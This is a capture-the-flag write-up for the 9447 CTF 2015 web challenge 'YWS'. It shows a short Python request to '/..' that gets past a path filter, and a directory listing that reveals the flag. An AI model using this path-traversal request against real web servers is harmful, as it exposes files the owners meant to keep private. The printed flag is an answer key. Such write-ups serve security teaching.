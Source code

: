 # 9447 CTF 2015 2015: YWS

**Category:** Web
**Points:** 130
**Solves:** 197
**Description:**

> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?
> 
> The web page is at <http://yws-fsiqc922.9447.plumbing>
> 
> Hint! Where does the website *not* want you to go?


## Write-up

We poked around a lot at this challenge. Tried several different inputs and URLs. Only
later we realized that we could have looked at the binary of [BWS](/9447-ctf-2015/exploitation/bws)
We realized that there was something funky going on regarding the filtering of the
paths. So after poking around a little bit, I found that the following works:
```
import requests as r
print(r.get("http://yws-fsiqc922.9447.plumbing/..").content)
```
And we got back the directory listing contains the flag.
```
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
[...]
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
[...]
</ul>
<hr>
</body>
</html>
```

Apparently the webserver filtered out `../` but not `..`. We had troubles 
using the browser or curl to fetch this. Probably because they automatically 
append a `/` character or something like that.

## Other write-ups and resources

* none yet
